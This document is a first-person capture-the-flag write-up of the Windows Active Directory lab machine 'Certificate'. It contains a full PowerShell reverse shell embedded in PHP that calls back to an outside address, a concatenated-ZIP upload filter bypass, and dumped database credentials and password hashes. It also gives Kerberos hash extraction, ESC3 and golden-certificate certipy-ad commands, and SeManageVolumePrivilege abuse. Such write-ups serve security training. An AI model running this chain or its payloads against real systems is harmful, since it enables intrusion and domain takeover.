


Certificate
Certificate was a hard-difficulty Windows Active Directory box that began with web application enumeration revealing an upload functionality accessible through quiz submission IDs. I exploited a file upload filter by creating concatenated ZIP archives, merging a legitimate PDF archive with a malicious one containing a PHP reverse shell, which bypassed content validation and granted initial access as a low-privileged web user. Database enumeration revealed MySQL credentials in the web application's configuration file, allowing me to dump user hashes from the Certificate_WEBAPP_DB database and crack Sara.B's password as "Blink182".
Using Sara.B's credentials via WinRM, I discovered a PCAP file documenting workstation connectivity issues, which I analyzed using Krb5RoastParser to extract and crack AS-REQ Kerberos tickets, revealing Lion.SK's password as "!QAZ2wsx". Post-compromise enumeration revealed Lion.SK belonged to the Domain CRA Managers group, which could enroll in the Delegated-CRA certificate template vulnerable to ESC3 (Certificate Request Agent EKU enabled). I exploited ESC3 by requesting a Certificate Request Agent certificate for Lion.SK, then used it to request a certificate on behalf of Ryan.K through the SignedUser template, obtaining Ryan.K's NTLM hash via PKINIT authentication.
Ryan.K possessed the SeManageVolumePrivilege, which I abused using FSCTL_SD_GLOBAL_CHANGE to globally replace the Administrators group SID (S-1-5-32-544) with the Users group SID (S-1-5-32-545) in file permissions, effectively granting my unprivileged user administrative access to protected files. With elevated file access, I used certutil to export the Certificate Authority's private key from the machine's certificate store, then performed a Golden Certificate attack by forging an administrator certificate with certipy-ad, ultimately authenticating as Administrator and achieving full domain compromise.
User flag
Initial nmap scan reveals a standard set of ports for a domain controller, alongside two other (80 and 5985) ports.
Website enumeration
There are a few accessible pages here, and the one I'm interested in the most is the blog. I'll create an account first before exploring it.
Seems like I won't be able to use a teacher account in this case. After trying to log in with it, I'm left with a blank page.
Instead, I'll create a regular student account.
There's not much on the blog page, aside from potential usernames to check later. With no leads to pursue, I'll use a fuzzer to search for files/directories.
I'll start by using dirsearch to discover any .php files that I haven't seen on the website. I will specify -e php to focus only on .php files and decrease the wordlist size.
dirsearch -u http://certificate.htb/ --exclude-sizes=304B -e php
There is a /upload.php page that's accessible only to authenticated users.
Since I haven't given it an SID, it returned a 404 error. I tried appending ?sid=X in order to reach a quiz, but this didn't work.
After some experimentation and changing the sid, I got a few hits with ffuf.
I used a simple wordlist consisting of numbers from 1 to 100, each on a separate line. It can be easily created with seq 1 100 > ids.txt
Accessing any of the IDs via ?s_id=ID grants me access to an upload form.
Filter bypass via concatenated ZIP archives
I tried uploading a zipped .xlsx file, but I got a 400 error(Bad request). However, uploading a zipped .pdf file was successful.
The link redirects to http://certificate.htb/static/uploads/8cab52ee39a496bcb224cdb3e5d654d6/file.pdf, which I can visit without problems.
I've tried a few tricks here like XSS, redirecting to other pages, and more. I never got any sort of callback/confirmation though, so I'm assuming it did not work.
I then moved my focus from the restricted extensions to the ZIP archive itself, and after a rather long search, I found a very interesting article.
https://perception-point.io/blog/evasive-concatenated-zip-trojan-targets-windows-users/
To simplify, the idea is to create two ZIP archives. One "good" and one "malicious" with a shell.
Then I'll cat both archives into a new one (final.zip).
I'll do it in a few steps:
- Create a directory named
evilwith shell.php inside(reverse shell)
Note: the evil ZIP needs to contain a directory(malicious) with shell.php inside. This is a necessary step.
-
Create a second directory named
goodwith the legitimate PDF file from before. -
Zip both directories.
-
Concatenate(cat) both ZIP archives into one
final.zip.
mkdir malicious
-
# This is what I'll put into the shell.php file
<?php
shell_exec("powershell -nop -w hidden -c \"\$client = New-Object Net.Sockets.TCPClient('10.10.16.13',9001); \$stream = \$client.GetStream(); [byte[]]\$bytes = 0..65535|%{0}; while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0,\$i); \$sendback = (iex \$data 2>&1 | Out-String ); \$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> '; \$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2); \$stream.Write(\$sendbyte,0,\$sendbyte.Length); \$stream.Flush()}; \$client.Close()\"");
?>
-
zip -r evil.zip malicious
zip good.zip file.pdf
# Now we merge the two archives together. The malicious archive needs to be the second argument.
cat good.zip evil.zip > final.zip
Now I'll set up a listener on 9001, and I'll upload the merged final.zip archive.
The PDF has been displayed, but I'll switch the file.pdf to malicious/shell.php on the URL bar.
After doing so, the website hung up, and I received a hit on my listener.

Dumping the mysql database
Going down the directories, I eventually found a db.php file in C:\xampp\htdocs\certificate.htb.
<?php
// Database connection using PDO
try {
$dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
$db_user = 'certificate_webapp_user'; // Change to your DB username
$db_passwd = 'cert!f!c@teDBPWD'; // Change to your DB password
$options = [
PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
];
$pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
die('Database connection failed: ' . $e->getMessage());
}
?>
There are credentials for a default database user inside, as well as the DB name.
I found C:\xampp\mysql\bin as well, containing mysql executables which will allow me to dump the database.
mysqldump.exe -u certificate_webapp_user -p cert!f!c@teDBPWD Certificate_WEBAPP_DB
However, running this command within powershell outputs nothing. This is probably because of the "!" signs, so I'll try using it with cmd instead.
cmd /c "mysqldump.exe -u certificate_webapp_user -pcert!f!c@teDBPWD Certificate_WEBAPP_DB"

This is much better, and I can identify a few hashes within the dump. I'll take the ones where email = something@certificate.htb, as these would most likely be used within the domain.
Lora.AAA:$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG
sara.b:$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6
I'll use hashcat to crack the hashes.
hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt --user
Now I will try authenticating with these credentials via netexec.
sara.b | Blink182
Conveniently, Sara's credentials allow me to remote into the machine, providing a safe checkpoint from which I could continue.
In the WS-01 directory, there are two files. A text file Description.txt:
The workstation 01 is not able to open the "Reports" smb shared folder which is hosted on DC01.
When a user tries to input bad credentials, it returns bad credentials error.
But when a user provides valid credentials the file explorer freezes and then crashes!
And a PCAP file, which I'll download onto my machine.
One thing to remember is that pinging WS-01 returns a timeout, but reveals the machine's IP, which is 192.168.56.128
Investigating the PCAP file with Wireshark
I set the filter to ip.src == 192.168.56.128, which will filter out any packets that did not come from the WS-01 machine.
There were quite a lot of logon attempts for the user administrator, but there wasn't much I could get from them.
Extracting Kerberos tickets from the PCAP file
While scrolling through the packets, I found a bunch of KRB5 protocol packets containing data related to tickets requested by the user Lion.SK.
I searched for a way to extract kerberos tickets from a PCAP file online. The ticket data was strewn across many packets, which would make the manual way tedious(and maybe impossible) to pull through.
https://github.com/jalvarezz13/Krb5RoastParser
This script will seek out Kerberos tickets within a PCAP file and rebuild them so that they can be cracked with tools like hashcat or John the Ripper.
python krb5_roast_parser.py ../WS-01_PktMon.pcap <TICKET>

I took the AS-REQ hash, and tried cracking it with hashcat.
Lion.SK | !QAZ2wsx
With that, I'll try to remote into the machine as Lion.
Root flag
With Lion.SK owned, I enumerated the machine manually, and found a way to privesc.
Abusing ESC3 to own Ryan.K
Lion.SK is a member of the Domain CRA Managers group...

And members of that group can enroll in the Delegated-CRA certificate template, which is vulnerable to ESC3(Template has Certificate Request Agent EKU set.).
Because of the Certificate Request Agent EKU, I will be able to request certificates on behalf of other users, after getting one for my user.
certipy-ad req -u 'lion.sk@certificate.htb' -p '!QAZ2wsx' -dc-ip 10.10.11.71 -target DC01.certificate.htb -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'
Now I need to find a template that allows enrollment for domain users. For this, I'll rerun the certipy-ad find command and grep for the Domain Users string.
There are 2 fitting templates, SignedUser and KerberosAuthentication. The last thing I need is to find a user I could pivot to.
While looking through the machine, I took notice of what users were present within the system. I will try to request a certificate for the two remaining users.
Requesting certs for the user akeder.kh failed with a CERTSRV_E_SUBJECT_EMAIL_REQUIRED error, but it was successful for Ryan.K.
certipy-ad req -u 'lion.sk@certificate.htb' -p '!QAZ2wsx' -dc-ip 10.10.11.71 -target DC01.certificate.htb -ca 'Certificate-LTD-CA' -template 'SignedUser' -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\Ryan.K'
Since I have a valid certificate, I can use certipy-ad to auth with it and get an NTLM hash for ryan.k.
certipy-ad auth -pfx ryan.k.pfx -dc-ip 10.10.11.71

And with the hash, I can remote into the machine as Ryan.

Abusing the SeManageVolumePrivilege for protected file access
I've never encountered this privilege before, so naturally, I've searched the web for more information about it.
This privilege allows an attacker to access protected files like system hives by reading raw disk data, and potentially even destroy the system by writing directly to volumes. It is usually only necessary for system-level software, volume operations, or certain backup tasks.
https://github.com/CsEnox/SeManageVolumeExploit
The above exploit enables this privilege in my session token and uses the FSCTL_SD_GLOBAL_CHANGE control code to switch every instance of S-1-5-32-544 (Administrators group) with S-1-5-32-545 (Users group) for file permissions, effectively granting regular users administrative access to protected files.
I ran the exploit, and tried to perform an operation on a protected file.
And while it worked, the hives are almost always being used by the system, which makes them impossible to get without the SeBackupPrivilege.
There are other files I could get though, and the box's name certainly hints at one of them.
Exporting the CA's private key
My focus moved to the CA and its private key. I've exploited a certificate template vulnerability earlier, so I already know the CA's name. Even if I didn't, it would be trivial to check with certutil, which I will also be using for stealing the CA's key.
First, I will see what kind of certificate sare stored in the CA's personal certificate store.
certutil -store my 'Certificate-LTD-CA'
There is a single certificate... But these 3 lines are important.
Key Container = Certificate-LTD-CA
Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
Provider = Microsoft Software Key Storage Provider
This leads me to strongly believe that this certificate contains an exportable private key. Another reason why I'm inclined to believe that is the missing Private key is NOT exportable flag.
CA certs are usually set as exportable so that they can be backed up and restored by administrators. On the other hand, the DC authentication certificates are often set as non-exportable due to security measures, as shown below.
Since the CA's store has only one certificate, I don't need to use the cert's serial number. It would be useful if there were multiple, but in this case, a single exportpfx command will pick out the sole cert.
certutil -exportpfx my 'Certificate-LTD-CA' cacert.pfx
Forging an administrator certificate - Golden certificate attack
Having the CA's private key allows me to forge certificates for ANY user on the domain. Obviously, the main target will be the administrator account.
certipy-ad forge -ca-pfx cacert.pfx -upn Administrator@certificate.htb
I set the UPN to the same value as the administrator's, so that the certificate will have a matching one. This will allow me to authenticate with the forged .pfx file.
Now I'll authenticate to the domain with the newly forged .pfx.
certipy-ad auth -pfx administrator_forged.pfx -dc-ip 10.10.11.71
This returns an NTLM hash, with which I can remote into the machine as the administrator.
Rooted!